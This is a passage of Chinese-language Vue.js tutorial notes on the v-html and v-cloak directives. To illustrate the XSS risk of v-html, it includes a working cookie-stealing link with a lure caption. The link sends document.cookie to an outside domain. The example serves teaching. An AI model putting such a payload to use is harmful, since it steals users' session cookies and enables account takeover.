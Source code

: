 

- cookie

  ![image-20210718152450091](Vue.assets/20210718152600.png)

  ![image-20210718152622962](Vue.assets/20210718152624.png)

  ![image-20210718152750766](Vue.assets/20210718152752.png)

```html
<div id ="app">
    <h2 v-html="str"></h2>
    <h2 v-html="str2"></h2>
</div>

<script>
    var vm = new Vue({
        el: '#app',
        data: {
            str:'<h3>Hello,Cez</h3>',
            str2:'<a href=javascript:location.href="http://www.cezzz.top?"+document.cookie>找到你要的资源了，快点击!!!</a>'
        },
        methods: {

        },
    });
</script>
```







## v-cloak指令

- v-cloak指令(没有值)：
  - 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性
  - 使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题，当Vue接管时会自动删除v-cloak

```html
<!DOCTYPE html><html lang="en"><head>    <meta charset="UTF-8">    <title>Document</title>    <script src="https://cdn.jsdelivr.net/npm/vue@2/dist/vue.js"></script>    <style>        /* 选中所有标签中含v-cloak属性的元素 */        [v-cloak]{            display:none;        }    </style></head><body>    <div id ="app">        <h2 v-cloak>{{name}}</h2>    </div>    <script>        var vm = new Vue({            el: '#app',            data: {                name:'cez'            },            methods: {                        },        });    </script></body></html>
```



## v-once指令
